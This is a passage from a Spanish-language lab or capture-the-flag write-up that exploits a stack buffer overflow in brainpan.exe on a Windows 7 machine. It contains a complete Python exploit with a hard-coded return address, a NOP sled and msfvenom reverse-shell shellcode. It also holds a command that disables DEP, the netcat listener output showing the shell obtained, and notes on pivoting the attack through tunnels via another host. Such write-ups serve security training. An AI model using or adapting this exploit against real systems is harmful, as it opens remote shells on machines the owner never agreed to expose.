

Confirmamos que `NX` se encuentra desactivado, al tener el ejecutable `brainpan.exe` todo en `False` pues no va a haber problemas puesto que no se produce aleatorización de direcciones

**Importante:** si `NX` se encuentra activado, abrir en Windows 7 una terminal `cmd` con privilegios y ejecutar el siguiente comando. Luego reiniciar la máquina para aplicar cambios

```bash
bcdedit.exe /set {current} nx AlwaysOff
```

[Ver Data Execution Prevention](../../Buffer%20Overflow/Data%20Execution%20Prevention.md)



Comando `mona`:

```bash
!mona find -s "\xFF\xE4" -m brainpan.exe
```

Explicaicón: confirmamos nuevamente la posibilidad de ejecución, lo que hacemos es guardar esta dirección `0x311712f3`

Explicación: generamos con *msfvenom* un payload que nos envíe una reverse shell a nuestra máquina atacante, lo incorporamos al script y ejecutamos abriendo previamente un canal de escucha en el que recibir la shell


---

### Reverse shell

Script:

```python
#!/usr/bin/env python3

import socket
from struct import pack

offset = 524
before_eip = b"A" * offset
eip = pack("<I", 0x311712f3)

shellcode = (b"\xdb\xd8\xb8\x67\xb4\xf0\x9c\xd9\x74\x24\xf4\x5d\x2b\xc9"
b"\xb1\x52\x83\xed\xfc\x31\x45\x13\x03\x22\xa7\x12\x69\x50"
b"\x2f\x50\x92\xa8\xb0\x35\x1a\x4d\x81\x75\x78\x06\xb2\x45"
b"\x0a\x4a\x3f\x2d\x5e\x7e\xb4\x43\x77\x71\x7d\xe9\xa1\xbc"
b"\x7e\x42\x91\xdf\xfc\x99\xc6\x3f\x3c\x52\x1b\x3e\x79\x8f"
b"\xd6\x12\xd2\xdb\x45\x82\x57\x91\x55\x29\x2b\x37\xde\xce"
b"\xfc\x36\xcf\x41\x76\x61\xcf\x60\x5b\x19\x46\x7a\xb8\x24"
b"\x10\xf1\x0a\xd2\xa3\xd3\x42\x1b\x0f\x1a\x6b\xee\x51\x5b"
b"\x4c\x11\x24\x95\xae\xac\x3f\x62\xcc\x6a\xb5\x70\x76\xf8"
b"\x6d\x5c\x86\x2d\xeb\x17\x84\x9a\x7f\x7f\x89\x1d\x53\xf4"
b"\xb5\x96\x52\xda\x3f\xec\x70\xfe\x64\xb6\x19\xa7\xc0\x19"
b"\x25\xb7\xaa\xc6\x83\xbc\x47\x12\xbe\x9f\x0f\xd7\xf3\x1f"
b"\xd0\x7f\x83\x6c\xe2\x20\x3f\xfa\x4e\xa8\x99\xfd\xb1\x83"
b"\x5e\x91\x4f\x2c\x9f\xb8\x8b\x78\xcf\xd2\x3a\x01\x84\x22"
b"\xc2\xd4\x0b\x72\x6c\x87\xeb\x22\xcc\x77\x84\x28\xc3\xa8"
b"\xb4\x53\x09\xc1\x5f\xae\xda\x2e\x37\xb1\x58\xc7\x4a\xb1"
b"\x5d\xac\xc2\x57\x37\xc2\x82\xc0\xa0\x7b\x8f\x9a\x51\x83"
b"\x05\xe7\x52\x0f\xaa\x18\x1c\xf8\xc7\x0a\xc9\x08\x92\x70"
b"\x5c\x16\x08\x1c\x02\x85\xd7\xdc\x4d\xb6\x4f\x8b\x1a\x08"
b"\x86\x59\xb7\x33\x30\x7f\x4a\xa5\x7b\x3b\x91\x16\x85\xc2"
b"\x54\x22\xa1\xd4\xa0\xab\xed\x80\x7c\xfa\xbb\x7e\x3b\x54"
b"\x0a\x28\x95\x0b\xc4\xbc\x60\x60\xd7\xba\x6c\xad\xa1\x22"
b"\xdc\x18\xf4\x5d\xd1\xcc\xf0\x26\x0f\x6d\xfe\xfd\x8b\x8d"
b"\x1d\xd7\xe1\x25\xb8\xb2\x4b\x28\x3b\x69\x8f\x55\xb8\x9b"
b"\x70\xa2\xa0\xee\x75\xee\x66\x03\x04\x7f\x03\x23\xbb\x80"
b"\x06")

payload = before_eip + eip + b"\x90"*16 + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.65", 9999))
s.send(payload)
s.close()
``` 

Acción: si no obtenemos shell, probar a ejecutar el exploit varias veces seguidas

```bash
python3 exploit.py
```

Resultado:

```bash
rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.65] 49254
Microsoft Windows [Versi�n 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Users\vboxuser\Desktop>ls
```

Explicación: ganamos acceso al sistema, enviándonos una Reverse Shell.


---

## Explotación

Tras haber hecho las pruebas de debugging  pertinentes hemos logrado obtener una Reverse shell a través de un Buffer Over Flow. Ahora la idea es trasladar este mismo concepto a la máquina objetivo

Con lo que tenemos es fácil. Tenemos que cambiar con `msfvenom` el payload, ya que tenemos que ejecutar el exploit en la máquina Matrix, que es la que tiene conexión con Brainpan, entonces el `LHOST` que tenemos que poner como payload es el de la máquina Matrix ya que es el nodo de conexión disponible, desde ahí con toda la tunelización creada que ya tenemos levantada, recibiremos la conexión en nuestra máquina atacante, obteniendo la shell


---
